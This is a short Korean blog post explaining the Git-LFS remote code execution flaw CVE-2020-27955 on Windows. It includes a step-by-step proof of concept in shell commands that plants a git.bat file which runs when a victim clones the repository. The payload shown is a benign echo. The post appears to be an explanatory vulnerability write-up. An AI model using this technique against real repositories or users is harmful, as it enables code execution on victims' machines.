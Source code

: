 ```yaml
---
title: "[하루한줄] Git-LFS RCE Exploit CVE-2020-27955"
author: L0ch
tags: [L0ch, git, git lfs, cve-2020-27955, rce, windows]
categories: [1day1line]
date: 2020-11-06 18:00:00
cc: true
index_img: /img/1day1line.png
---
```


## URL 

[Git-LFS RCE Exploit CVE-2020-27955](https://exploitbox.io/vuln/Git-Git-LFS-RCE-Exploit-CVE-2020-27955.html)



## Target

Git <= 2.29.2-git-lfs



## Explain

대용량 파일을 업로드 하기 위해 github에서 개발한 extension인 git-lfs(Large File Storage)에서 Windows를 대상으로 원격 코드 실행이 가능한 취약점이 발견되었습니다.

해당 취약점을 악용하여 git-lfs로 업로드한 파일이 있는 저장소에서 Windows 시스템의 피해자가 저장소를 복제할 때 상호작용 없이 공격자의 악성 바이너리가 실행될 수 있습니다.



취약점의 PoC는 아래와 같습니다.

1. 공격자는 저장소에 실행할 명령어를 포함한 `git.*` 이름의 windows 바이너리 형식 파일을 추가합니다.

   ```bash
   git.bat : @echo git-lfs RCE exploit!!
   git add git.bat 
   ```

2. 저장소에 lfs 파일을 추가합니다.

   ```bash
   git lfs track "* .dat" 
   git add .gitattributes
   
   echo "git exploit PoC"> lfs.dat
   git add lfs.dat
   ```

3. 바이너리와 lfs 파일을 커밋하고 원격 저장소에 업로드합니다.

   ```bash
   git commit -a -m "git-lfs exploit"
   git remote add origin https://repository_url
   git push -u origin master
   ```

4. Windows 시스템에서 clone할 때 git-lfs 취약점이 트리거되어 기존 git 바이너리 대신 공격자의 원격 저장소에서 clone한 악성 `git.bat`이 사용자 상호작용 없이 실행됩니다.

   ```bash
   PowerShell> git clone https://repository_url
   git-lfs RCE exploit!! 
   ```